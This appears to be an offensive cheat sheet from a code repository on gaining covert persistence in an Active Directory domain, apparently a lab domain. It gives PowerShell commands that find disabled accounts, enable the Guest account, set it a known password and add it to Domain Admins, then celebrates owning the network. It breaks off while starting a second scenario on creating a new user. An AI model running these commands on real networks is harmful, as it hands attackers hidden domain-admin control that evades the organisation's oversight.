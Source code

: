 ```
```

## Enumerate users
***If while on a target box we are concerned a legitimate user will log on during our mission consider the following***

### Scenario 1: Find a user already on the box

**Find Disabled users**
```
PS> get-aduser -filter {Enabled -eq "FALSE"} -properties name, enabled

DistinguishedName : CN=Guest,CN=Users,DC=army,DC=warriors
Enabled           : False
GivenName         :
Name              : Guest
ObjectClass       : user
__________CUT____________

```

**Enable that user**
```
PS> Enable-ADAccount -Identity guest
   -Nothing returned if successful execution-
```

***The password must meet domain complexity requirements***

**Change the password**
```
PS> Set-AdAccountPassword -Identity guest -NewPassword (ConvertTo-SecureString -AsPlaintext -String "PassWord12345!!" -Force)
   -Nothing returned if successful execution-
```

**Add the user to an Admin Group**
```
Add-ADGroupMember -Identity "Domain Admins" -Members guest
-Nothing returned if successful execution-
```

***You now own the network!***

### Scenario 2: Create a new user on the box

***Run the following command to get a sample of the Distinguished Name to match AD format***

**Get Distinguished Name to match AD format**
```
PS> Get-ADuser -filter * | select distinguishedname, name

CN=Amelie.Benjamin,OU=3RD PLT,OU=CCO,OU=3RDBN,OU=WARRIORS,DC=army,DC=warriors     Amelie.Benjamin
CN=Ramon.Gibbs,OU=3RD PLT,OU=CCO,OU=3RDBN,OU=WARRIORS,DC=army,DC=warriors         Ramon.Gibbs
CN=Willie.Liu,OU=3RD PLT,OU=CCO,OU=3RDBN,OU=WARRIORS,DC=army,DC=warriors          Willie.Liu
CN=Yair.Roth,OU=3RD PLT,OU=CCO,OU=3RDBN,OU=WARRIORS,DC=army,DC=warriors           Yair.Roth
CN=Elisha.Coleman,OU=3RD PLT,OU=CCO,OU=3RDBN,OU=WARRIORS,DC=army,DC=warriors      Elisha.Coleman
__________CUT____________
```
